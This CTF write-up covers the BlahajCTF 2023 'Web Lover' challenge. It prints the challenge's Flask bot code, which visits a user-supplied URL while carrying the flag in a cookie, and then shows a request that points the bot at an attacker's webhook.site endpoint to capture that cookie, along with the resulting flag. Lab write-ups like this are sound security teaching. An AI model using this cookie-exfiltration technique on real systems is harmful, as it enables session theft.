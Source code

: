 ```yaml
---
title: Web Lover
date: 2023-12-05
tags:
- web
categories: BlahajCTF 2023
---
```


> Guess blahaj's favourite website and he will give you the flag!

We are given the website and the source code. Looking into the source code, we see that it visits a site and adds a cookie, and that we are supposed to steal the cookie:
```py
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

We simply create your own https://webhook.site, and  go to `/visit?site=https://webhook.site/<insert your id>` and we receive the header:
```
cookie: favorite_site=blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}
```

Funny, as no XSS is even required